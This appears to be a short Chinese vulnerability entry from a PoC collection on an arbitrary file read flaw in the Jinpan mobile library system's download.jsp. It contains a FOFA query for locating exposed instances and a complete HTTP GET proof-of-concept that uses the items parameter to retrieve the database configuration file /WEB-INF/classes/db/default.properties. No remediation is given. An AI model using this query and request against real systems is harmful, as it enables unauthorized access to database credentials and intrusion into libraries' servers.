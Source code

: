 # 金盘移动图书馆系统download.jsp存在任意文件读取漏洞

金盘移动图书馆系统download.jsp存在任意文件读取漏洞，通过该漏洞读取数据库配置文件等

## fofa

```javascript
app="金盘软件-金盘移动图书馆系统"
```

## poc

```javascript
GET /pages/admin/tools/file/download.jsp?items=/WEB-INF/classes/db/default.properties HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cookie: JSESSIONID=D8C7BD39FAF4DD095FBBB0E87FB017C5
Connection: close
```

![image-20250217101024678](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502171010739.png)